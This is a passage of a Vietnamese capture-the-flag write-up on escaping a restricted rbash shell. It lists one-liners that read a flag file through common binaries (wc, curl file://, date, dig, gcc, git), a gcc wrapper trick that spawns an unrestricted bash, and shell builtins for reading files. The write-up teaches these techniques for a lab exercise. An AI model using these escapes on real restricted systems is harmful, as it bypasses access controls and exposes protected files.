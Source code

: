 - Vì trong thư mục **/home/chall/bin** có file **ls** nên ta dễ dàng biết được trong thư mục hiện tại có 1 file **flag.txt**, việc còn lại chỉ là đọc file này thôi. Để đọc được file này thì có 2 hướng: 1 là sử dụng các **builtin command** (cái này mình để dành đến challenge sau sẽ trình bày luôn), 2 là sử dụng 10 command tác giả cho trong thử mục **/home/chall/bin**.
    + wc --files0-from flag.txt
    + curl file:///home/chall/flag.txt
    + date -f flag.txt
    + dig -f flag.txt
    + file -f flag.txt
    + gcc -x c -E flag.txt
    + git diff /dev/null flag.txt
    + ip -force -batch flag.txt
    + ss -a -F flag.txt
    + **ls \`\<flag.txt\`** hoặc **ls $(\<flag.txt)** (**ls** chỉ làm màu thôi, chứ như này cũng xong game rồi **$(\<flag.txt)** :vv)

### Advanced - thoát khỏi rbash

- Có thể có ae thắc mắc ủa 9 cái command đầu tiên ở đâu mà sao có thể đọc được file hay vậy, thì thứ nhất 9 command đó là 9 command rất thông dụng, thứ 2 về chức năng đọc file của các command này thì tác giả cũng đã được tham khảo từ [link này](https://gtfobins.github.io/).
- Tiếp tục, có thể sẽ có nhiều ae tìm kiếm về các bài writeup về việc thoát khỏi **rbash** shell như challenge này. Và trong các bài viết đó có bài sẽ đề cập đến cách dùng **vim**, **python**, ... để chúng ta tận dụng những command này để lấy 1 cái shell khác (bash/dash/..) nhưng những writeup này chỉ đề cập 1 vài cách cụ thể cho 1 vài command nào đó chứ không tổng quát, ví dụ như trường hợp challenge này sẽ không có **vim** hay **python** để sài. Mình thì chỉ share thôi chứ mấy cái này cũng "ao trình" mình mà - vâng chính là cái [link khi nãy](https://gtfobins.github.io/).  Dựa vào cái document này thì ta biết trong 10 command tác giả cho có 2 command cho phép chúng ta lấy được cái shell mới, đó là **gcc** và **git**.
    + gcc -wrapper /bin/bash,-s .
    + git trong trường hợp này không sử dụng được vì thiếu 1 số command cần thiết.
- Sau khi sử dụng câu lệnh **gcc** ở trên, ta sẽ có cái shell **/bin/bash**, lúc này chúng ta có thể thay đổi được biến môi trường **PATH** để sử dụng như bình thường mà không còn bị giới hạn như trước nữa.

    ![image](picture/pic43.png)

## Challenge 6
- Link: nc 167.172.68.241 2004
### Phân tích challenge
- Challenge này tương đối giống challenge trước ngoại trừ 2 điểm:
    + Sẽ không có 10 command được tặng như challenge trước
    + Flag bị chia ra 3 phần:
        + Phần 1: Tên của 1 file 
        + Phần 2: Nội dung của 1 file với tên file có dạng xxxx.txt
        + Phần 3: Nội dung của 1 file với tên file không xác định
### Solution
- Đầu tiên mình xin liệt kê 1 số cách đọc file bằng các **builtin command** như:
    + . filename hoặc source filename (được nhưng không khuyến khích).
    + echo \$(\<filename) thay vì \$(\<filename) (chỉ đẹp nếu file 1 line)
    + while read line; do echo $line; done < filename (chuẩn rồi)
    + maybe more